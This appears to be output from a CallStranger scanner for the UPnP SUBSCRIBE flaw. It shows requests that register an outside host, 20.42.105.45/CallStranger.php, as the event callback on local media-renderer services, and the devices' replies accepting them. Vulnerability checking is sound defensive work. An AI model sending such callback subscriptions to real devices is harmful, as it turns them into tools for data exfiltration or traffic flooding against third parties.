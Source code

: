     Calling stranger for  http://192.168.1.22:2870/event/RenderingControl with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNny3BDg9OPz7WaHI8MiJpkALTuYhq7nY6l4raSduMcqumRKn4UlCXYs3sU9MgDhSi8-WtjR_X45asVQ3-r5fZ4ky6LR0WiG4BhqUTwmkf2615sCC3G4ZSfRGYq-G5qWVX&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:2870/event/RenderingControl seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'IPI/1.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:1387715a-035e-1090-b8e1-eef4918f5627', 'TIMEOUT': 'Second-300', 'CONTENT-LENGTH': '0', 'CONNECTION': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.22:2870/event/ConnectionManager with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNKQTdXOAlJaFdcir5kgI_v9PxZnpeWD-9IS6U2TqMM2aL1a4gg-JTL3CT5K8ZWAUBbEePDGqzqv7iiDzk41AMEiXILhED7lGiJ6wOO3LMSXNhamdQ37BLa8AoWmUuDGBxe-AEss0TC-QY8g7I67M68Q==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:2870/event/ConnectionManager seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'IPI/1.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:138b078e-035e-1090-a367-cb37c034dcad', 'TIMEOUT': 'Second-300', 'CONTENT-LENGTH': '0', 'CONNECTION': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.22:2870/event/AVTransport with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNw-5CaKWtBdFlWBV6PQtV4Q8koFEr9nKRbAOAm-_f035IQl9uUNY6MdrneLHLi_tBKJ37i5OOLiBsOYADTUpYtsFWApBe3NPCQgJDh5omi2mmClmPiVCPdjUNu7-TYmiK&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:2870/event/AVTransport seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'IPI/1.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:138da0f2-035e-1090-9f01-aca6dbf642e0', 'TIMEOUT': 'Second-300', 'CONTENT-LENGTH': '0', 'CONNECTION': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/RenderingControl/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNtLC8GIuICPflEhBEu8nFgxe12U0nnrJ_ewbmVwlrtu0yEqC6rWp3CuUgYdHSYalFv8dG5ETCsQBnx6PVdHbSzk6EGpYBwo8nvdXqJtdnvnjeveUz9Q4bhwZ4qDKKmiQb&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/RenderingControl/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13e92d5a-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/ConnectionManager/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNJJsfohjZJRLZdiBF4Kvt1amVenr9a1Zi3oHhu_Xfomk_li6uJ9l0OeR6YVh2d6qbCF-t1uAmMVJfs5Tu7FWiNg15UXhyF8ubI_YZxtXTC4zpxHt7r2MdISJ8WwOFQ_J-f6E5yV6Bv8c4A1BBqfuD2Q==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/ConnectionManager/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13ec9fee-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/AVTransport/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWN0JCuymqONPp3Sbu9E_TUiUmXTZ5s777Hm2WsV7CO40kqjYGLoibSPew4uBpjel6Y_pOKPQOf3PsZwKG-PIC0G5jJiqEHmwRFI-Bd6ftBUIltwYGTtiBYII1QHfQ2c7mp&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/AVTransport/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13f07b14-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    